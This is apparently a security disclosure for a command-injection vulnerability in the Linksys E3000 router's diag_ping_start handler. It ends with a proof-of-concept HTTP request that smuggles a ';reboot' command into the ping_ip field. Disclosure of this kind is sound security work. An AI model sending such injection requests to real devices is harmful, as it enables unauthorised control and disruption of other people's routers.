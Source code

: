 ## Linksys E3000 router RCE

Firmware Name: FW_E3000_1.0.06.002_US_20140409_code.bin

- Model: E3000

- Version: 1.0.06.002_US

- Test Environment: Ubuntu 18

- vendor website:https://www.linksys.com/

- Model page:https://store.linksys.com/support-product?sku=E3000

- firmware download link:https://drivers.softpedia.com/get/Router-Switch-Access-Point/Linksys/Linksys-E3000v1-Router-Firmware-1006-Build-2.shtml

![image](https://github.com/user-attachments/assets/f21cd7b3-5209-443b-8e2d-7408dc154d33)

![image](https://github.com/user-attachments/assets/dbf8de7b-65d9-41f3-9cbb-d089cbc7390e)


​      A command execution vulnerability has been identified in a Linksys E3000 router, which, due to inadequate back-end filtering, enables an attacker to remotely execute malicious code while obtaining login status. 

​      The vulnerability is located in the diag_ping_start function of httpd.

![image](https://github.com/user-attachments/assets/ed40a25d-d52a-46d1-aada-15b95d01971f)


​      The `cgi` variable receives the `ping_ip` argument from http, which is then concatenated in the `fprintf` function, and the concatenated string is executed in the file stream.

#### POC

```
POST /apply.cgi;session_id=ffce69721cd238c98c15730f910865c9 HTTP/1.1

Host: 192.168.3.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://192.168.3.1/apply.cgi;session_id=8ea51f0aefb952cee1c1ad3372cd65a9

Content-Type: application/x-www-form-urlencoded

Content-Length: 153

Origin: http://192.168.3.1

Connection: close

Upgrade-Insecure-Requests: 1



submit_button=Diagnostics&change_action=gozila_cgi&submit_type=start_ping&gui_action=&commit=0&ping_ip=%3breboot&ping_size=32&ping_times=5&traceroute_ip=
```
![image](https://github.com/user-attachments/assets/3e1d5165-b951-438a-a19a-4058ebc1aa1a)

